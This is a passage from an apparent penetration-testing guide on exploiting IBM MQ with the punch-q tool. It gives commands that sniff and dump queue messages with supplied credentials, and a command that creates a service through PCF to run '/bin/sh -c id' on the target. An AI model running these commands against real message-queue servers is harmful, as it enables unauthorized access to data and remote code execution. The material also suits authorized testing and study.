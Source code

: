 ## Exploit

### Dump messages

You can target queue(s)/channel(s) to sniff out / dump messages from them (non-destructive operation). _Examples:_

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN messages sniff
```

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN messages dump
```

**Do not hesitate to iterate on all identified queues.**

### Code execution

> Some details before continuing: IBM MQ can be controlled though multiple ways: MQSC, PCF, Control Command. Some general lists can be found in [IBM MQ documentation](https://www.ibm.com/docs/en/ibm-mq/9.2?topic=reference-command-sets-comparison).  
> [**PCF**](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=commands-introduction-mq-programmable-command-formats) (**_Programmable Command Formats_**) is what we are focused on to interact remotely with the instance. **punch-q** and furthermore **pymqi** are based on PCF interactions.
>
> You can find a list of PCF commands:
>
> - [From PCF documentation](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=reference-definitions-programmable-command-formats), and
> - [from constants](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=constants-mqcmd-command-codes).
>
> One interesting command is `MQCMD_CREATE_SERVICE` and its documentation is available [here](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=formats-change-copy-create-service-multiplatforms). It takes as argument a `StartCommand` pointing to a local program on the instance (example: `/bin/sh`).
>
> There is also a warning of the command in the docs: _"Attention: This command allows a user to run an arbitrary command with mqm authority. If granted rights to use this command, a malicious or careless user could define a service which damages your systems or data, for example, by deleting essential files."_
>
> _Note: always according to IBM MQ documentation (Administration Reference), there is also an HTTP endpoint at `/admin/action/qmgr/{qmgrName}/mqsc` to run the equivalent MQSC command for service creation (`DEFINE SERVICE`). This aspect is not covered yet here._

The service creation / deletion with PCF for remote program execution can be done by **punch-q**:

**Example 1**

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command execute --cmd "/bin/sh" --args "-c id"
```

